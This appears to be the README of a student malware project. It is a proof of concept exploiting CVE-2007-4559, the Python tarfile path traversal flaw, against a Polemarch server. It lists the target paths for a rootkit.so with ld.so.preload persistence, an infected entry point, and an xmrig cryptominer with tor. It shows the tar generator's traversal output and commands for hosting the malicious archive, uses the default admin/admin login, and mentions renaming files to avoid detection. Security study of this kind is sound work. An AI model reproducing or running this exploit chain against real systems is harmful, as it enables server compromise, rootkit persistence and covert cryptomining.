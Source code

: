 # MALW
Malware UPC

## Set up

### Docker
```bash
$: docker compose build 
$: docker compose up -d
```

Polemarch server available at http://localhost:8080

### Vagrant
```bash
$: vagrant up
```

Polemarch server available at http://localhost:8085

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:

- /usr/local/lib
  - -> **rootkit.so**: library to load
- /etc
  - -> **ld.so.preload**: library to load before any other library
- /opt/polemarch/bin
  - -> **polemarchctl**: infected docker entry point
- /usr/bin
  - -> **xmring**: miner
  - -> **tor**: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Server hosting the compromised tar files

First, deploy the polemarch server (with vagrant or docker):

Generate the tar files and host the tar files (example using python localhost server). Configure the server to listen in an interface
accesible from the docker container:

```bash
$: cd poc

# Copy tor and xmrig binaries
$: cp ../cryptominer/tor .
$: cp ../cryptominer/xmrig .

# Execute tar files generator
$: python3 tar.py
[*] Creating symlink aaaa -> etc/
[*] Creating symlink bbbb -> usr/local/lib/
[*] Creating symlink cccc -> usr/bin/
[*] Creating symlink dddd -> opt/polemarch/bin/
[*] Changing aaaa to ../../../../../../../../../test/aaaa
[*] Changing bbbb to ../../../../../../../../../test/bbbb
[*] Changing cccc to ../../../../../../../../../test/cccc
[*] Changing dddd to ../../../../../../../../../test/dddd
[*] Changing ld.so.preload to ../../../../../../../../../test/aaaa/ld.so.preload
[*] Changing rootkit.so to ../../../../../../../../../test/bbbb/rootkit.so
[*] Changing tor to ../../../../../../../../../test/cccc/tor
[*] Changing xmrig to ../../../../../../../../../test/cccc/xmrig
[*] Changing polemarchctl to ../../../../../../../../../test/dddd/polemarchctl
[*] Removing symlink aaaa
[*] Removing symlink bbbb
[*] Removing symlink cccc
[*] Removing symlink dddd

# Server python server from tar directory
$: cd tar
$: python -m http.server 3005
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![Project](./images/project.png)

"Sync" the project, which will untar untar our compromised tar.

Note: the server hosting IP must be accessible from the docker of virtual machine
